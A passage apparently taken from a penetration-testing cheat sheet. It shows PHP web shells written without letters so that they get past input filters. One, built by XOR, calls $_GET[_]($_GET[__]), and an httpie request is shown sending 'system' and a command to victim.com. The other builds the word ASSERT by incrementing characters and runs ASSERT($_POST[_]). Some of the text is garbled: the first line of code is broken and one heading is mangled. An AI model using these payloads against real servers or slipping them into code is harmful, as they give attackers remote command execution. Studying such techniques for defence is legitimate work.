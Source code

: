 ```php
lt;>/'^'{{{{';\${\$_}[_](\${\$_}[__]);" `$_='
```

```php
lt;>/'^'{{{{'; --> _GET` `${$_}[_](${$_}[__]); --> $_GET[_]($_GET[__])` `So, the function is inside $_GET[_] and the parameter is inside $_GET[__]` http --form POST "http://victim.com/index.php?_=system&__=$CMD" "input=$CODE"
```
### Perl soos
```php
<?php
$_=[];
$_=@"$_"; // $_='Array';
$_=$_['!'=='@']; // $_=$_[0];
$___=$_; // A
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__; // S
$___.=$__; // S
$__=$_;
$__++;$__++;$__++;$__++; // E
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // R
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$___.=$__;

$____='_';
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // O
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$____.=$__;

$_=$$____;
$___($_[_]); // ASSERT($_POST[_]);
```
<figure><img src="../../../images/pentest-tools.svg" alt=""><figcaption></figcaption></figure>
